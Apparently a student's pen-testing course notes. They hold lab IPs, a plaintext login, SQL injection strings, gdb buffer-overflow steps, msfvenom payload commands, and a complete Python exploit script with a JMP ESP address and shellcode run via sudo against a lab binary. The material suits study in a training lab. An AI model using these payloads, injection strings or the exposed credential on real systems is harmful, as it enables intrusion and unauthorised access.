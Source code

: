 
## Misc 
https://sec.cybbh.io/public/security/latest/index.html
Test Day: August 15th
http://10.50.20.250:8000/

JOHA-005-M : CHT8QBJ8TQBlv7S : 10.50.20.235
joseph.m.hassett19@workstation17:~$ ssh student@10.50.20.235 -X



Lin-OPS: 10.50.40.22

xfreerdp /u:student /v:10.50.37.222 /dynamic-resolution +glyph-cache +clipboard
Win-OPS: 10.50.37.222

## Day 1
### Pen Testing
	Phase 1: Define Goals
	Phase 2: Recon
	Phase 3: Footpriting
	Phase 4: Exploitation
	Phase 5: Post Exploitation
	Phase 6: Document Mission
	
#### Pen Testing Test Reporting
	OPNotes
		Actions being taken that works, maps, the things that have worked. Keeping track of the steps
		You want to be able to pass them off to your teamates, same with the technical summary

	Penetration Test Reporting
		Executive Summary
			The tops, not evertything but a summary
		Technical Summary
			In the weeds, the more technical stuff
	
### Recon
#### NMAP
	nmap --script <filename><category><directory
	proxychains nmap -v -sT -T5 --script http-enum.nse 192.168.28.100
	
#### Google Hacking
	site: <site> <what you want to search>


### Exploit Research
	website for exploits
	https://www.exploit-db.com/
#### SQL
	Test with ', some exmaples
	username', 'password', 'email@email', 1) -- 'comment

	username', 'password', 'email@email', 1) -- 'comment , valid

	username', 'password', 'email@email', 1)

	tom' or 1='1' -- 'comment == 'tom' or 1='1' -- 'comment' AND password='' -> successful to get admin credentials

	ram' or 1='1 -> shows as '%ram' or 1='1%'
	
### Steps to Make Payload

1. Make sure you find a way to buffer overflow the program
2. Once the program is possible to overflow run in gdb and run it and then find the EIP and ESP
3. use the commands below 

	env - gdb ./func
	unset env COLUMNS
(gdb) 	unset env LINES 
	info proc map
	find /b "addressafterheap", "addressafterstack", 0xff, 0xe4 
	find from after heap, to end of stack, JMP ESP
	
	file <<<$(echo "file <<<$(echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa...") in gdb and find the byte offset, that will be what is used to fill the buffer
	
4. Use metasploitable to create the payload and then add that to the script, run  the file and boom 

## Payloads
	file <<<$(echo "file <<<$(echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa...")

	msfvenom -l payloads
	msfvenom -p linux/x86/exec CMD=iconfig -b '\x00' -f python
	msfconsole
	use payload/linux/x86/exec
	show options
	set CMD whoami && ifconfig
	generate -b "\x00" -f python
	
using our script on the other script to execute payload

#!/usr/bin/python2.7
# FILL UP THE BUFFER 
buf = "A" * 62

#EIP Register to JMP ESP

buf += "\x59\x3b\xde\xf7"

#The mem addresses for JMP ESP

'''
0xf7de3b59 "\x59\x3b\xde\xf7"
0xf7f588ab
0xf7f645fb
0xf7f6460f
'''
## Assits with encoding NOP SLED
buf += "\x90" * 10

# Shell Code / palyoad below
# set CMD whoami && ifconfig


buf += b"\xdb\xc3\xd9\x74\x24\xf4\x58\xbb\xe6\xef\x4a\x63"
buf += b"\x29\xc9\xb1\x0e\x31\x58\x19\x03\x58\x19\x83\xe8"
buf += b"\xfc\x04\x1a\x20\x68\x90\x7c\xe7\x08\x48\x52\x6b"
buf += b"\x5c\x6f\xc4\x44\x2d\x07\x15\xf3\xfe\xb5\x7c\x6d"
buf += b"\x88\xda\x2d\x99\x99\x1c\xd2\x59\xe9\x74\xbd\x38"
buf += b"\x78\xed\x61\x9d\xa4\xcd\x08\x87\xcb\x62\xa5\x21"
buf += b"\x65\x1b\x39\xf9\x26\x6a\xd8\xc8\x49"

print(buf)

wiremask.eu



0xf7def000, 0xffffe000

find /b 0xf7def000, 0xffffe000, 0xff, 0xe4

0xf7df1b51
0xf7f6674b
0xf7f72753
0xf7f72c6b 

sudo /.hidden/inventory.exe <<<$(./inventbuff.sh)

















